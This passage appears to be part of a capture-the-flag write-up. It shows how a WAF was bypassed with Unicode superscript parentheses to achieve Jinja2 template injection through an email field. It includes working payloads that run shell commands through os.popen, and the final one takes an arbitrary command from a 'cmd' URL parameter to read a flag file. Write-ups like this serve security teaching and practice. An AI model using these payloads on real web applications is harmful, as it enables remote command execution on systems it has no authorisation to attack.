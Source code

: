Reading [this great blog](https://jlajara.gitlab.io/web/2020/02/19/Bypass_WAF_Unicode.html) about bypassing WAFs using unicode normalization attacks, I found that I could use the characters `⁽⁾` and see if it bypassed the WAF.

Testing it with the following payload shows that I have got it!

```
{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen⁽'id'⁾.read⁽⁾}}@yeet.com
```

![](images/deafcon_heckye.png)

*ye ye ye*

Now I just need to find a way to execute commands with spaces since the **WAF also blocks emails with spaces in it**. The easiest way I used was having a seperate `GET` parameter called `cmd` that I could retrieve by using `request.args.cmd`.

**Full payload**
```
/ticket?name=yeet&email={{self._TemplateReference__context.cycler.__init__.__globals__.os.popen⁽request.args.cmd⁾.read⁽⁾}}@yeet.com&cmd=cat flag.txt
```

![](images/deafcon_flag.png)

---

## Poller
